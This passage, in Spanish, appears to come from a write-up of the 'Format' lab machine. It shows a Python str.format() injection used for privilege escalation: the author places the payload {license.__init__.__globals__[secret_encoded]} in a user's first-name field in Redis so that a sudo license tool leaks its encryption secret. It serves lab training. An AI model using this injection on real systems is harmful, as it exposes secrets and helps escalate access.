 El primer paso es crear un usuario no provisionado, creamos un usuario a través del sitio web.

```console
cooper@format:/usr/bin$ redis-cli -s /var/run/redis/redis.sock
redis /var/run/redis/redis.sock> keys *
1) "pointed"
2) "cooper.dooper"
3) "PHPREDIS_SESSION:97vle27go9t2gt324n5dqre1n7"
4) "cooper.dooper:sites"
```

Le podemos provisionar ahora y vemos que funciona.
```console
cooper@format:/usr/bin$ sudo /usr/bin/license -p pointed

Plaintext license key:
------------------------------------------------------
microblogpointed3u6jc"D]GQ"5Of@iNd'j'6&~>+Xa@~C;:&JW4y1Ppointedpointed

Encrypted license key (distribute to customer):
------------------------------------------------------
gAAAAABm2KSrLZ4-8N7h12sTktgCH_tcMFYStC1_4C9GV9ssRC2DsbFCta7zs5cScBclfOJxLvWiSHB-qXxftcnyUOYvoiynkpXt5ifmibRVyuVkJb8YPAfozSU2PDoY9v308Szz10Pcglz_m9TGJ4LzA-iebZnf_XfVFEie0reV7Gngq0EZqqQ=
```

Y vemos una cosa de la cual sabiendo la vulnerabilidad en `format` nos podemos aprovechar.

Vemos que se refleja el nombre del usuario, podríamos modificar el `firstlast` e intentar leer el `secret` ya que esta variable ya está definida en tiempo de ejecución.
```python
license_key = (prefix + username + "{license.license}" + firstlast).format(license=l)
```

Creamos un usuario `test` y ahora podríamos seguir el artículo anterior y siguiendo el formato `{people_obj.__init__.__globals__[CONFIG][KEY]}` podríamos acceder al objeto `license` y a través del `__init__` podríamos acceder a la variable `secret_encoded` que en principio contiene la clave de encriptación en texto plano.

Ahora cambiamos el campo `first-name` del usuario `test` para llevar a cabo esta explotación.
```
redis /var/run/redis/redis.sock> HSET test first-name {license.__init__.__globals__[secret_encoded]}
(integer) 0
```

Vemos que se ha actualizado correctamente.
```
redis /var/run/redis/redis.sock> HGETALL test
 1) "username"
 2) "test"
 3) "password"
 4) "test"
 5) "first-name"
 6) "{license.__init__.__globals__[secret_encoded]}"
 7) "last-name"
 8) "test"
 9) "pro"
10) "false"
```
